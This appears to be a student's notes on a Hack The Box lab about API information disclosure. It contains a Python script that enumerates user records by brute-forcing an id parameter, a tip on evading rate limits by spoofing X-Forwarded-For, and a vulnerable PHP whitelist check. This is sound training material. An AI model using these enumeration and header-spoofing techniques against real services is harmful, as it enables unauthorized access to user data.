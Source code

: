 ```shell-session
smoothment@htb[/htb]$ python3 brute_api.py http://<TARGET IP>:3003
Number found! 1
[{"id":"1","username":"admin","position":"1"}]
Number found! 2
[{"id":"2","username":"HTB-User-John","position":"2"}]
...
```

Now you can proceed to the end of this section and answer the first question!

**TIP**: If there is a rate limit in place, you can always try to bypass it through headers such as X-Forwarded-For, X-Forwarded-IP, etc., or use proxies. These headers have to be compared with an IP most of the time. See an example below.


```php
<?php
$whitelist = array("127.0.0.1", "1.3.3.7");
if(!(in_array($_SERVER['HTTP_X_FORWARDED_FOR'], $whitelist)))
{
    header("HTTP/1.1 401 Unauthorized");
}
else
{
  print("Hello Developer team! As you know, we are working on building a way for users to see website pages in real pages but behind our own Proxies!");
}
```

The issue here is that the code compares the _HTTP_X_FORWARDED_FOR_ header to the possible _whitelist_ values, and if the _HTTP_X_FORWARDED_FOR_ is not set or is set without one of the IPs from the array, it'll give a 401. A possible bypass could be setting the _X-Forwarded-For_ header and the value to one of the IPs from the array.

---

## Information Disclosure through SQL Injection

SQL injection vulnerabilities can affect APIs as well. That _id_ parameter looks interesting. Try submitting classic SQLi payloads and answer the second question.

# Questions
---

![](Pasted image 20250219154858.png)

Let's use this script to answer the first question:

```python
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()
```

